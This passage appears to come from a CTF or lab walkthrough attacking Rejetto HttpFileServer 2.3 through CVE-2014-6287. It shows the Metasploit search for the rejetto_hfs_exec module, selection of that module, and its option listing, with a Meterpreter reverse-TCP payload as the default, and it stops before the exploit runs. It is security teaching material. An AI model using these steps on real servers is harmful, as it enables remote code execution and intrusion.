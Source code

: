 > **HFS has had multiple security issues in the past**, but states on its website that as of 2013 "_There are no current known security bugs in the latest version. HFS is open source, so anyone is able to easily check for security flaws (and we have many expert users). Although it was not designed to be extremely robust, HFS is very stable and has been used for months without a restart_".

Visiting the website via our browser looks like this:

![](home.png){: .normal width="60%"}

Searching Google for "_HttpFileServer 2.3 exploit_" there are several results that point to [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287):

![](google_search.png){: .normal width="60%"}

We can launch Metasploit and search if there is a module associated with this CVE:

```bash
$ msfconsole -q
msf6 > search CVE-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec
```

Luckily there is one! Let's configure it:

```bash
msf6 > use 0
s[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                         using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                         local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```